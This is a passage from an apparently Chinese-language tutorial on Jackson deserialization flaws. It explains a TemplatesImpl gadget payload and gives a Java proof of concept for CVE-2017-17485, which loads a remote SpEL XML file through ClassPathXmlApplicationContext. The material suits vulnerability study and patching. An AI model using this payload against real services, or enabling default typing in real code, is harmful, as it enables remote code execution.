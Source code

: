 这里解释下设置的几个JSON键值对：

- transletBytecodes——Base64编码的Exploit恶意类的字节流，编码原因可参考之前的Fastjson系列；
- transletName——TemplatesImpl类对象的_name属性值；
- outputProperties——为的是能够成功调用setOutputProperties()函数，该函数是outputProperties属性的setter方法，在Jackson反序列化时会被自动调用；



### 4.2 CVE-2017-17485（基于ClassPathXmlApplicationContext利用链）

Jackson 2.7系列 < 2.7.9.2

Jackson 2.8系列 < 2.8.11

Jackson 2.9系列 < 2.9.4

不受JDK限制，可直接在JDK1.8上运行。

利用链是基于org.springframework.context.support.ClassPathXmlApplicationContext类，利用的原理就是SpEL表达式注入漏洞。



POC

```java
public class PoC {
    public static void main(String[] args) {
        //CVE-2017-17485
        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8000/spel.xml\"]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        try {
            mapper.readValue(payload, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```





## 参考

- https://fynch3r.github.io/%E3%80%90%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E3%80%91Jackson/
- 





